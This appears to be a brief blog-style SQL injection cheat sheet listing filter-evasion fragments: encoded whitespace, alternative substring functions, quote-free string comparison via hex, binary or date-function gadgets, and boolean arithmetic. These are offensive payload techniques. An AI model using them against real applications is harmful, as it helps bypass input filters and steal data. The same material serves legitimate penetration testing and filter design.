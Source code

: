 ```yaml
---
title: ["SQL Injection Cheat Sheet"]
date: 2024-12-01 09:00:00 +0900
categories: [cheatsheet, sqli]
tags: [web, cheatsheet]
---
```


### White Space
```
%20  // SPACE
%09  // HORIZONTAL TAB
%0a  // LINE FEED
%0b  // VERTICAL TAB
%0c  // FORM FEED
%0d  // CARRIAGE RETURN
%a0  // NBSP
/**/
select(id)from(table)where(id=1)
```

### Substring
```
substr(id,1,1)
substr(id from 1 for 1)
mid(id,1,1)
right(left(id,1),1)
lpad(id,1,space(1))
reverse(right(reverse(id),1))
```

### String Compare without Single Quotation
```
admin=0x61646d696e                                 // using Hex
admin=0b0110000101100100011011010110100101101110   // using Binary
substr(monthname(from_unixtime(1)),2,1)='a'        // using Gadget
```

### Number Expression
```
True = 1
False = 0
True+True = 2
True-True = 0
```